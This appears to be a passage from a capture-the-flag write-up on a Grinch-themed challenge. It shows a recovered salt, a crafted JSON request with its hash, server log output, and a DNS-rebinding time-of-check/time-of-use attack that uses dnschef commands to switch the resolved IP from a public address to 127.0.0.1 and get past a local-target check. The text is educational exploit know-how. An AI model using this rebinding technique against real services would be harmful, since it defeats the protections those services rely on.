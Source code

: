 So the salt is `mrgrinch463`

This is easily confirmed by creating this request, now lecit.

	{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}

Unfortunately this only gives

```
Host Information for: 127.0.0.1
Local target detected, aborting attack
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
```

We then started to use hostnames instead of ip addresses but we got strange responses from the server which put us in a wrong direction (maybe too many hackers trying to DDOS the Grinch server with many requests...).

Anyay, when situation stabilizes it is clear that some basic trick do not work, like using `127.0.0.1.xip.io`. The grinch server specifically resolves hostname
and checks that a DDOS is not launched against itself: 127.0.0.1. That is definitely our target, wherever the Grinch hides.

Given the extensive checks that the grinch does to see if his DDOS is successful, an idea comes to mind. What if
whe set up a name server that responds with a non local ip on first requests, and then change the resolution to 127.0.0.1?
Maybe second time the check against local IPs is not in place (a classic TOCTOU - Time Of Check Time Of Use - vulnerability).

Our hypotesis is based on the observation of this beavhiour:

```
Setting Target Information
Getting Host Information for: 192.168.1.1.xip.io
Host resolves to 192.168.1.1
Spinning up botnet
Launching attack against: 192.168.1.1.xip.io / 192.168.1.1
ping 192.168.1.1
64 bytes from 192.168.1.1: icmp_seq=1 ttl=118 time=22.9 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=118 time=21.2 ms
64 bytes from 192.168.1.1: icmp_seq=3 ttl=118 time=15.9 ms
Host still up, maybe try again?
```

-  Get host information: resolves, check is different that 127.0.0.1
-  then attack

Maybe in the attack phase 127.0.0.1 is not checked again.

So we started our fake nameserver using dnschef

	dnschef -i 0.0.0.0 --fakeip 192.168.1.1
	
having in mind that we should be quite quick and launch it again with different options:	

	dnschef -i 0.0.0.0 --fakeip 127.0.0.1
